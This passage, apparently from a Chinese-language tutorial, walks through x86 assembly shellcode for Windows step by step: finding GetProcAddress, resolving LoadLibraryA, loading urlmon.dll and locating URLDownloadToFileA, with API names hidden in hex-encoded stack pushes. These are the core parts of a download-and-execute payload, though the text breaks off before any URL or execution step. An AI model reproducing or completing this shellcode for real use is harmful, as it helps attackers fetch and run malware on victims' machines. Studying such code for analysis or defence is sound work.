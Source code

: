     mov edx,[esi+edx*4]
    add edx,ecx ;edx=GetProcAddress()

    xor esi,esi
    mov esi,edx ;GetProcAddress()
    mov edi,ecx ;kernel32.dll
    ```

3. 使用GetProcAddress确定LoadLibrary函数地址

    ```bash
    ;finding address of LoadLibraryA()
    xor eax,eax
    push eax
    push 0x41797261
    push 0x7262694c
    push 0x64616f4c

    push esp
    push ecx

    call edx


    add esp,12
    ```

4. 使用LoadLibrary加载加载urlmon.dll

    ```bash
    ;LoadLibraryA("urlmon.dll")
    xor ecx,ecx

    push 0x41416c6c
    mov [esp+2],byte cl
    push 0x642e6e6f
    push 0x6d6c7275

    push esp
    call eax

    add esp,12
    ```

5. 获得URLDownloadToFileA入口
    ```bash

    ;finding address of URLDownloadToFileA()
    xor ecx,ecx
    push 0x42424165
    mov [esp+2],byte cl
    push 0x6c69466f
    push 0x5464616f
    push 0x6c6e776f
    push 0x444c5255

    push esp
    push eax
    call esi
